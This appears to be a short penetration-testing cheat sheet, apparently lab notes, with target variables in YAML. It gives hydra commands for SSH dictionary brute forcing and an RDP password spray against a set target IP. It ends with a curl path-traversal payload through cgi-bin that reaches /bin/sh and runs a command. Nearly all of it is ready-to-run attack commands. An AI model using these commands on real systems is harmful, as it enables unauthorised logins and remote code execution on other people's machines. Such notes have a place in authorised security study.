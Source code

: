 ```yaml
---
IP_KALI: 192.168.45.155
IP_TARGET: 192.168.173.122
USER: users.txt
PASSWD: SuperS3cure1337#
PORT: "22"
---
```

Brute force dictionary attack ssh with hydra:
- hydra -l <span id="USER"/>users.txt<span type="end"/> -P /usr/share/wordlists/rockyou.txt -s <span id="PORT"/>22<span type="end"/> ssh://<span id="IP_TARGET"/>192.168.173.122<span type="end"/>

Password spray rdp with hydra:
- hydra -L /usr/share/wordlists/dirb/others/names.txt -p "<span id="PASSWD"/>SuperS3cure1337#<span type="end"/>" rdp://<span id="IP_TARGET"/>192.168.173.122<span type="end"/>

hydra cheatsheet:
- https://github.com/frizb/Hydra-Cheatsheet

```
curl -s --path-as-is -d "http://192.168.221.201:80/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --data "echo;id"
```